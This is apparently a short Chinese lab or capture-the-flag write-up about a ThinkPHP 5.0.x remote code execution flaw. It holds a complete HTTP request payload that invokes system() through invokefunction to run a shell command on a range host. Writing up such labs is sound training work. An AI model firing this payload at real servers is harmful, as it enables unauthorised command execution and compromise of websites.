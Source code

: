
#  thinkphp_5.0.21命令执行 by [hu4wufu](https://github.com/hu4wufu)

## 漏洞描述

Thinkphp5.x 版本（5.0.20）中没有对路由中的控制器进行严格过滤，在存在 admin，index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。

## 影响版本

ThinkPHP 5.x < ThinkPHP 5.1.31<= ThinkPHP 5.0.23

## 利用流程

1、打开靶场、抓包分析，下面是poc，拿到flag成功。

![1](./1.png)
```
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp HTTP/1.1
Host: 118.193.36.37:28446
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect=1
Upgrade-Insecure-Requests: 1

```